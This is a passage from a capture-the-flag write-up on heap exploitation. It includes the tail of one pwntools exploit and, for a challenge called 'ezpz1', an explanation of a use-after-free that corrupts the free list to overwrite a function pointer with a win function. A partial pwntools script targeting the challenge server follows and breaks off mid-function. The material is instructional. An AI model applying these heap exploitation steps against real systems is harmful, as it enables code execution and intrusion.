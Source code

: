```python
# Create malicious node
make(5, p32(0x6447) + win)

# Get hint from corrupted node
hint(4)

p.interactive()
```

## ezpz1

---

FLAG{REDACTED}

---

The point to this one was finding out that the chunks are malloc from the bin list in reverse order. This along with the use-after-free exploit, lets you write to both the header/function pointer area and the string area, using the pointers to "strings" of two different chunks.

1. Malloc 2 chunks
2. Delete both chunks
3. Remove one of the chunks from the bins list by setting the pointer to the next free element to be some garbage.
4. malloc another chunk, which now contains the pointer to the header of the first chunk as the pointer to the string which we write to.
5. Overwrite the pointer to the `print_question` function with the `win` function
6. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./ezpz1')
p = remote('plsdonthaq.me', 7001)
#gdb.attach(p)

# create question
def create():
	p.readuntil('choice,')
	p.sendline('c')

# delete question
def delete(index):
	p.readuntil('choice,')
	p.sendline('d')
	p.readuntil('id:')
	p.sendline(str(index))

# setting question
def setQuestion(index, question):
	p.readuntil('choice,')
	p.sendline('s')
	p.readuntil('id')
	p.sendline(str(index))

	p.readuntil('question')
	p.sendline(question)

def askQuestion(index):
	p.readuntil('choice,')
	p.sendline('a')
	p.readuntil('id')
```